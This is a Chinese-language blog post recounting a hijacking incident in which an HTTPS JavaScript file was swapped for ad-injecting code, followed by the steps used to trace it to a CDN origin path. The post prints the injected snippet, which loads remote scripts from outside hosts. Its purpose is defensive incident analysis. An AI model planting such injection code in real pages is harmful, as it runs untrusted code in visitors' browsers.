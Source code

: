 ```yaml
---
layout: post
title: HTTPS DNS劫持案例
tags: 技术 原创
---
```


今天早晨到公司后，同事反馈页面中存在注入广告。打开同事提供的页面链接后，第一次没有发现，刷新了大约10次终于发现了这个广告。

顺藤摸瓜找到被劫持的url，请求报文如下：
{% highlight text %}
Request URL:https://domain-a.com/stats.js
Request Method:GET
Status Code:200 OK
Remote Address:111.111.111.19:443
{% endhighlight %}

https协议的js文件被篡改成如下信息（示意文件，做了删改排版）：
{% highlight js %}
var a=document.createElement("script");
a.src="http://domain-b/entrance.js";
document.getElementsByTagName("head")[0].appendChild(a);

var b=document.createElement("script");
b.src="http://222.222.222.235/?url=domain-a.com/stats.js";
document.getElementsByTagName("head")[0].appendChild(b);
{% endhighlight %}

这是典型的js劫持，但这次HTTPS被劫持是**中间人劫持**呢？还是**证书泄露**？或者是其他情况？拉来安全的同事一起分析被劫持的页面请求现场。

HTTPS的静态文件被劫持，可能存在的情况主要有下面三种情况：

1. 证书泄露（被劫持的js文件是一个大公司的文件，证书泄露可能性较小）；
2. 中间人劫持；
3. CDN回源路径中存在劫持。

## 排查步骤如下

1、打开新的浏览器窗口，重复请求被劫持的链接

结果：同一个js未被劫持，再一次验证劫持是随机发生的。

2、打开[站长之家Ping查询](http://ping.chinaz.com/)和[IPIP Ping查询](http://www.ipip.net/ping.php)查询`domain-a.com`域名DNS结果，确认是否存在`111.111.111.19`这个IP。

结果：两个查询都不存在，疑似是劫持者服务器IP。

3、绑定本地hosts文件，再次请求被劫持的URL`https://domain-a.com/stats.js`
{% highlight text %}
111.111.111.19 domain-a.com
{% endhighlight %}
结果：劫持内容复现，证书签名正确，排除中间人劫持，进一步怀疑是CDN回源路径中存在劫持。

## 解决方法
安全同事投诉给该大公司的安全部门，等待小礼物中。

## 基本概念
1. [劫持](https://en.wikipedia.org/wiki/DNS_hijacking)
